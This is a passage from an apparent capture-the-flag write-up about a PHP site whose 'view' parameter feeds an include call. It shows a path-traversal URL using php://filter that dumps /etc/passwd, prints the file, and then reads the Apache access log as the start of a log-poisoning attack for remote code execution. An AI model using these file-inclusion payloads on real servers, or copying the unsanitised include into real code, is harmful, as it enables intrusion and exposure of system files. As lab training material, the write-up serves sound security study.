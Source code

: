 ```php
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

If you don’t know php, here is what it basically does:<br/>It checks if there is a “ext” parameter in the URL. If there is not, it uses a .php extension and else it uses whatever it was given in the URL. Then of course it includes whatever file is specified in the view parameter, with the given extension.

With this knowledge we can things like this:

```bash
http://10.10.39.107/?view=php://filter/resource=./dog/../../../../../../../etc/passwd&amp;ext=
```

To extraxt the linux password file:

```plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Sadly we can not find any passwords or anything else interesting here, so we have to dig deeper.

The next thing we should try is log poisining. We are really just injecting a pice of php code into the log, to get remote code execution. Let’s first check where the log is. From our nmap scan we know that it is an apache2 server. So just try all the default locations. This is where I found it:

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=
```

